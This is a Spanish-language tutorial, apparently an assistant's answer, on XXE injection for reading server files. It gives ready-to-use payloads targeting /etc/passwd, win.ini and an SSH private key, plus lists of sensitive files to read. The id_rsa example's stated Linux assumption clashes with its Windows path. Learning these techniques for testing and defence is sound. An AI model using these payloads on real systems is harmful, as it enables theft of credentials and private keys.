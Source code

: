 # Tema: XXE - Exfiltración de archivos locales

## 1. ¿Qué es XXE y cómo funciona?

La **Inyección de Entidades Externas XML (XXE)**, del inglés *XML External Entity Injection*, es una vulnerabilidad de seguridad web que permite a un atacante interferir con el procesamiento de datos XML de una aplicación.

El ataque ocurre cuando una entrada XML que contiene una referencia a una entidad externa es procesada por un parser XML débilmente configurado. Esta entidad externa puede ser una URI que el parser intentará resolver, permitiendo al atacante acceder a recursos locales o remotos que no debería.

**Funcionamiento Básico:**

1.  La aplicación acepta datos en formato XML.
2.  El atacante modifica los datos XML para definir una entidad externa (por ejemplo, un archivo local del servidor) usando la sintaxis `<!ENTITY ...>`.
3.  El atacante utiliza la entidad definida dentro de un campo de datos XML (ej: `&nombre_entidad;`).
4.  El parser XML del servidor procesa el documento, sustituye la entidad por su contenido (el contenido del archivo local) y lo devuelve en la respuesta HTTP, revelando así la información.

## 2. Cómo identificar puntos de inyección/vulnerabilidad

Para encontrar vulnerabilidades XXE, debes buscar cualquier punto en la aplicación donde se envíen y procesen datos en formato XML.

**Puntos comunes de inyección:**

* **Subida de archivos:** Funcionalidades que permiten subir archivos con formatos basados en XML como `.docx`, `.xlsx`, `.svg`, o `.xml` directamente.
* **Peticiones `POST` con `Content-Type: application/xml`:** Muchas APIs y servicios web (SOAP, REST) utilizan XML para la comunicación. Intercepta estas peticiones con un proxy (como Burp Suite) y modifica el cuerpo para incluir un payload de prueba.
* **Parámetros en la URL:** Aunque menos común, algunas aplicaciones pueden recibir datos XML a través de parámetros GET.

**Proceso de identificación:**

1.  **Interceptar el tráfico:** Usa un proxy para capturar todas las peticiones que la aplicación envía al servidor.
2.  **Buscar XML:** Filtra las peticiones que contengan datos XML en el cuerpo o en parámetros.
3.  **Inyectar un payload de prueba:** Modifica la petición para incluir una entidad XML simple y comprueba si se procesa. Si la aplicación devuelve un error de parseo o un comportamiento inesperado, es un buen indicio.

## 3. Uso básico para exfiltrar archivos

Una vez identificado un punto de inyección, puedes construir un payload para leer archivos del sistema de ficheros del servidor. La clave es usar el protocolo `file:///`.

### Ejemplos para Linux

En sistemas Linux, los archivos de interés suelen estar en el directorio `/etc/`.

**Payload para leer `/etc/passwd`:**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
   <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<userInfo>
   <firstName>John</firstName>
   <lastName>&xxe;</lastName>
</userInfo>
```

**Respuesta esperada (dentro del XML):**

```xml
...
<lastName>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
</lastName>
...
```

**Otros archivos de interés en Linux:**

* `/etc/shadow` (requiere privilegios de root para ser leído por el proceso de la aplicación)
* `/etc/hosts`
* `/etc/issue`
* `/proc/version`
* `/proc/self/environ`
* `/var/log/apache2/access.log`

### Ejemplos para Windows

En sistemas Windows, los archivos de configuración y sistema se encuentran principalmente en `C:\Windows\` o en directorios de usuario.

**Payload para leer `C:\Windows\win.ini`:**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
   <!ENTITY xxe SYSTEM "file:///c:/Windows/win.ini">
]>
<product>
   <productId>123</productId>
   <description>&xxe;</description>
</product>
```

**Respuesta esperada (dentro del XML):**

```xml
...
<description>; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
</description>
...
```

**Otros archivos de interés en Windows:**

* `c:\Windows\System32\drivers\etc\hosts`
* `c:\boot.ini`
* `c:\Users\Administrator\NTUSER.DAT`
* `c:\inetpub\logs\LogFiles\W3SVC1\u_ex[YYMMDD].log`

## 4. Caso de uso: Exfiltración de un `id_rsa`

Las claves SSH son un objetivo de alto valor, ya que pueden permitir el acceso a otros sistemas. La clave privada `id_rsa` suele encontrarse en el directorio `.ssh` del home del usuario que ejecuta la aplicación web.

**Payload de ejemplo para exfiltrar `id_rsa`:**

Este payload asume que la aplicación se ejecuta con el usuario `daniel` en un sistema tipo Linux/macOS o que la ruta es válida en Windows.

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
   <!ENTITY xxe SYSTEM "file:///c:/users/daniel/.ssh/id_rsa">
]>
<order>
    <quantity>2</quantity>
    <item>&xxe;</item>
    <address>test</address>
</order>
```

**Resultado en la respuesta de la aplicación:**

Si la vulnerabilidad es explotable, la aplicación devolverá el contenido de la clave privada `id_rsa` dentro de la estructura XML, como se muestra en el ejemplo que proporcionaste:

```xml
<order>
    <quantity>2</quantity>
    <item>-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
...
-----END OPENSSH PRIVATE KEY-----</item>
    <address>test</address>
</order>
```

## 5. Entendiendo el Payload: DOCTYPE y ENTITY

Para que el ataque XXE funcione, el payload XML debe contener una estructura específica. Analicemos las partes clave:

`<!DOCTYPE root [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>`

* **`<!DOCTYPE root [...]>`**: Esta es la declaración de **Definición de Tipo de Documento** (DTD). Le indica al parser XML la estructura que debe seguir el documento. En un ataque XXE, el atacante define su propia DTD "en línea" (dentro de los corchetes `[]`) para declarar una entidad maliciosa. El `root` debe coincidir con el elemento raíz del documento XML (por ejemplo, `<order>`, `<userInfo>`, etc.).

* **`<!ENTITY xxe ... >`**: Esto declara una **entidad**. Una entidad en XML es similar a una variable en un lenguaje de programación; se le asigna un nombre y un valor.

    * **`xxe`**: Es el nombre que le damos a nuestra entidad. Podríamos llamarla como quisiéramos (ej: `fichero`, `data`, etc.).
    * **`SYSTEM`**: Esta palabra clave es crucial. Indica que el valor de la entidad no está en el propio documento, sino que debe cargarse desde un **recurso externo**.
    * **`"file:///etc/passwd"`**: Es la URI del recurso externo. El parser intentará resolver esta URI. Al usar el protocolo `file://`, le ordenamos que lea un archivo del sistema de ficheros local del servidor.

* **`&xxe;`**: Esta es la **referencia a la entidad**. Cuando el parser XML encuentra esta sintaxis (un ampersand `&` seguido del nombre de la entidad y un punto y coma `;`), la reemplaza por el valor que se le asignó. En nuestro caso, la reemplaza por el contenido del archivo `/etc/passwd`.

En resumen, el atacante utiliza la DTD para crear una "variable" (`ENTITY`) que apunta a un archivo local (`SYSTEM "file://..."`) y luego "imprime" el contenido de esa variable en la respuesta XML usando una referencia (`&xxe;`).
